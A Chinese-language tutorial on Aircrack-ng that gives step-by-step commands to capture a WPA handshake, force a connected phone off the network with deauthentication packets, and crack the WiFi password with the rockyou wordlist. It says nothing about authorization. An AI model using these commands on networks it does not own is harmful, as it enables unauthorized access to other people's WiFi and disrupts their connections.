

# Aircrack基本使用

## 安装

kali发行版已经安装了所有东西：

```
sudo apt install aircrack-ng
```

> 官网下载地址：[Aircrack-ng - Downloads](https://aircrack-ng.org/downloads.html)
>
> 虚拟机使用：`虚拟机 -> 可移动设备 -> WLAN -> 连接`

## 基本使用

**查看网卡信息**：

```
ipconfig
```

> 

**杀死干扰进程**：

```
sudo airmon-ng check kill
```

**开启网卡监听模式**：

```
airmon-ng start wlan0
```

> 

**查看网卡信息**：

```
iwconfig
```

> wlan0mon网卡名加了mon则表示成功
>
> 

**扫描WIFI**：

```
airodump-ng wlan0mon
```

> 
>
> 参数含义：
>
> - `BSSID`：wifi的MAC地址
> - `PWR`：信号强弱程度，数值越小信号越强
> - `#DATA`：数据量，越大使用的人就越多
> - `CH`：信道频率（频道） 
> - `ESSID`：wifi的名称，中文可能会有乱码

### 数据抓取

```
// 输入
airodump-ng --bssid BSSID -c 信道频率 -w 抓包存储的路径 wlan0mon

// 例如：本次抓取的wifi名称：CMCC-DDtP
airodump-ng --bssid 10:58:87:2D:75:09  -c 3 -w /home/wifi2/test2 wlan0mon
```

> 
>
> 注意：抓到握手包会在右上角展示地址

**强制踢用户下线**：

```
// 把查到的手机或者用户踢下线
aireplay-ng -0 0 -c 连接到WiFi的手机mac地址 -a bssid 网卡名（一般为wlan0mon）

// 例如
aireplay-ng -0 0 -c B8:27:C5:13:E6:BD -a 10:58:87:2D:75:09 wlan0mon
```

> 
>
> 当使用`aireplay-ng`断开用户连接时。 需要ctrl+c断开后，用户才能自己连接上，否则用户的连接会被受限制

### 字典文件爆破

**aircrack-ng爆破**：

```
// 解压 /usr/share/wordlists/ 下的 rockyou.txt.gz 文件

gzip -d /usr/share/wordlists/rockyou.txt.gz

// aircrack-ng -w 字典路径 握手包路径
aircrack-ng -w /usr/share/wordlists/rockyou.txt /home/wifi2/test2-02.cap
```

> 抓包了几次，后缀就是代表`-n`，爆破需要使用cap文件
>
> 

**wifipr爆破**：


通过密码字典进行哈希碰撞：


## 参考博客

- [aircrack-ng破解无线网络 - ZuiTaiPing - 博客园 (cnblogs.com)](https://www.cnblogs.com/zuitaiping/p/18280123)
- [conwnet/wpa-dictionary: WPA/WPA2 密码字典，用于 wifi 密码暴力破解 (github.com)](https://github.com/conwnet/wpa-dictionary)
- [IYATT-yx/WiFi-Password-Dictionary: WiFi 密码字典 (github.com)](https://github.com/IYATT-yx/WiFi-Password-Dictionary)
